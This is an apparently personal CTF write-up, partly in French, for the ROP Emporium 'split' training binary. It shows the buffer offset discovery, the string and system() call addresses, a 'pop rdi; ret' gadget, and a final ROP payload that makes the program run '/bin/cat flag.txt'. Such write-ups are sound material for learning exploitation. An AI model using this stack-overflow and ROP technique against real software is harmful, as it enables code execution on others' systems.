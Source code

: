 #  RopEmporium : split

## TLDR


Call a function with parameter from binary
- Get param addr 
- Get fct addr 
- bufferoffset + gadget(pop ;ret) + string addr + function addr 


## Checksec 

```
$ checksec split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
NX -> rop 

## Buffer size

```gdb
gdb-peda$ pattern_create 200 pattern

Writing pattern of 200 chars to filename "pattern"
gdb-peda$ r < pattern

Program received signal SIGSEGV, Segmentation fault.
RSP: 0x7fffffffdc58 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA`\a@")
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc58 ("AA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA`\a@")
Stopped reason: SIGSEGV
0x0000000000400741 in pwnme ()

gdb-peda$ pattern offset AA0AAFAA
AA0AAFAA found at offset: 40

gdb-peda$ find "/bin/cat"
Searching for '/bin/cat' in: None ranges
Found 1 results, display max 1 items:
split : 0x601060 ("/bin/cat flag.txt")
```
offset => 40 bytes



## Get string 'cat flag.txt' address 

```
$ objdump -s split
 601060 2f62696e 2f636174 20666c61 672e7478  /bin/cat flag.tx
 601070 7400                                 t.              
```
=> 601060

```
peda: find "/bin/cat" 
```


## Get 'call system()' address 

```
$ r2 split
 -- 256 colors ought to be enough for anybody
[0x004005b0]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze all functions arguments/locals
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Finding and parsing C++ vtables (avrr)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information (aanr)
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x004005b0]> afl
0x004005b0    1 42           entry0
0x004005f0    4 42   -> 37   sym.deregister_tm_clones
0x00400620    4 58   -> 55   sym.register_tm_clones
0x00400660    3 34   -> 29   sym.__do_global_dtors_aux
0x00400690    1 7            entry.init0
0x004006e8    1 90           sym.pwnme
0x00400580    1 6            sym.imp.memset
0x00400550    1 6            sym.imp.puts
0x00400570    1 6            sym.imp.printf
0x00400590    1 6            sym.imp.read
0x00400742    1 17           sym.usefulFunction
0x00400560    1 6            sym.imp.system
0x004007d0    1 2            sym.__libc_csu_fini
0x004007d4    1 9            sym._fini
0x00400760    4 101          sym.__libc_csu_init
0x004005e0    1 2            sym._dl_relocate_static_pie
0x00400697    1 81           main
0x004005a0    1 6            sym.imp.setvbuf
0x00400528    3 23           sym._init
[0x004005b0]> 
```
0x00400560     sym.imp.system
On va chercher un call vers cette fct
```
$ objdump -d split | grep call
  40074b:       e8 10 fe ff ff          callq  400560 <system@plt>
```
=> 0x40074b call system

```
0x004005b0]> pdf @ sym.usefulFunction
┌ 17: sym.usefulFunction ();
│           0x00400742      55             push rbp
│           0x00400743      4889e5         mov rbp, rsp
│           0x00400746      bf4a084000     mov edi, str._bin_ls        ; 0x40084a ; "/bin/ls" ; const char *string
│           0x0040074b      e810feffff     call sym.imp.system         ; int system(const char *string)
│           0x00400750      90             nop
│           0x00400751      5d             pop rbp
└           0x00400752      c3             ret
``` 
=> 0x0040074b     call sym.imp.system

Q: pourquoi ça ne passe pas avec 0x400560 directement ?




## Gadget pop rdi;ret 

```
$ ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```

=> 0x00000000004007c3


## Payload 


gadget_addr=p64(0x00000000004007c3)
param_addr=p64(0x601060)
fct_system_addr=p64(0x0040074b) 

payload  = b'A' * 40
payload += gadget_addr+param_addr+fct_system_addr